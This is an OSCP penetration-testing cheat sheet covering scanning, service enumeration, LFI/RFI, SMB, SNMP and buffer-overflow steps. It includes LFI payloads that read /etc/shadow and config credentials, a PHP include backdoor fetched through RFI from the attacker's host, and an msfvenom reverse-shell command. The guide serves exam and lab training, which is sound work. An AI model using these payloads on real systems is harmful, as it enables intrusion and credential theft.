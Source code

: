 # How to pass the OSCP

1. Recon
2. Find vuln
3. Exploit
4. Document it

## Recon

Unicornscans in cli, nmap in msfconsole to help store loot in database.

### TCP

```
unicornscan -i tap0 -I -mT $IP:a
db_nmap -e tap0 -n -v -Pn -sV -sC --version-light -A -p
```

### UDP 

```
unicornscan -i tap0 -I -mU $IP:a
db_nmap -e tap0 -n -v -Pn -sV -sC --version-light -A -sU -p
```

## Enumerating 

This is the essential part of penetration. Find out what is available and how you could punch through it with minimum ease.

DO NOT SKIP STEPS.

DO NOT PASS GO.

SEARCH ***ALL*** THE VERSIONS WITH `searchsploit` 
(or google -> `site:exploit-db.com APP VERSION`)


### HTTP - 80, 8080, 8000

```
curl -i ${IP}/robots.txt
```

Note down Server and other module versions.

searchsploit them ALL.

Visit all URLs from robots.txt.

```
nikto -host $IP
```

```
gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt

gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/common.txt
```

if nothing, find more web word lists.

*Browse the site* but keep an eye on the burp window / source code / cookies etc.

Things to be on look for:

- Default credentials for software
- SQL-injectable GET/POST params
- LFI/RFI through ?page=foo type params
- LFI:
  - `/etc/passwd` | `/etc/shadow` insta-win
  - `/var/www/html/config.php` or similar paths to get SQL etc creds
  - `?page=php://filter/convert.base64-encode/resource=../config.php`
  - `../../../../../boot.ini` to find out windows version
- RFI:
  - Have your PHP/cgi downloader ready
  - `<?php include $_GET['inc']; ?>` simplest backdoor to keep it dynamic without anything messing your output
  - Then you can just `http://$IP/inc.php?inc=http://$YOURIP/bg.php` and have full control with minimal footprint on target machine
  - get `phpinfo()`


### HTTPS - 443

Heartbleed / CRIME / Other similar attacks

Read the actual SSL CERT to:

- find out potential correct vhost to GET
- is the clock skewed
- any names that could be usernames for bruteforce/guessing.

### FTP - 21

- Anonymous login
- Enumerate the hell out of the machine!
  - OS version
  - Other software you can find on the machine (Prog Files, yum.log, /bin)
  - password files
  - DLLs for `msfpescan` / BOF targets
- Do you have UPLOAD potential?
  - Can you trigger execution of uploads?
  - Swap binaries?
- Vulnerabilities in version / RCE / #WINNING?-D

### SMB - 139, 445

```
enum4linux -a $IP
```

Read through the report and search for versions of things => `searchsploit`

```
smbclient -L $IP
```

Mount shares

```
mount -t cifs -o user=USERNAME,sec=ntlm,dir_mode=0077 "//10.10.10.10/My Share" /mnt/cifs
```

Can you access shares?

- Directly exploitable MSxx-xxx versions?
  - Worth burning MSF strike?


### SNMP - UDP 161

- Try to enumerate windows shares / network info

Quick test of communities:

```
onesixtyone
```

Full discovery of everything you can:

```
snmp-check
```


### TFTP - UDP 69

- Read / Write access?
  - Pretty much same things as FTP

### SSH - 22

Unless you get a MOTD or a broken sshd version, you are SOOL and this is likely just a secondary access point once you break something else.

### Email - 25, 110/995 or 143/993

SMTP, POP3(s) and IMAP(s) are good for enumerating users.

Also: ***CHECK VERSIONS*** and `searchsploit`


## Buffer Overflow

1. Determine length of overflow trigger w/ binary search "A"x1000
2. Determine exact EIP with `pattern_create.rb` & `pattern_offset.rb`
3. Determine badchars to make sure all of your payload is getting through
4. Develop exploit
  - Is the payload right at ESP 
    - `JMP ESP`
  - Is the payload before ESP 
    - `sub ESP, 200` and then `JMP ESP`
    - or
    - `call [ESP-200]`
5. `msfvenom -a x86 --platform windows/linux -p something/shell/reverse_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename`
  - Make sure it fits your payload length above
6. Gain shell, local priv esc or rooted already?

## Misc tools

- `cewl` for crawling a site for bruteforcing user/password
- don't forget about `nmap` scripts!
  - e.g. `--script smtp-commands` or `--script auth-owners`

**ALL CREDITS GO TO "*unfo***
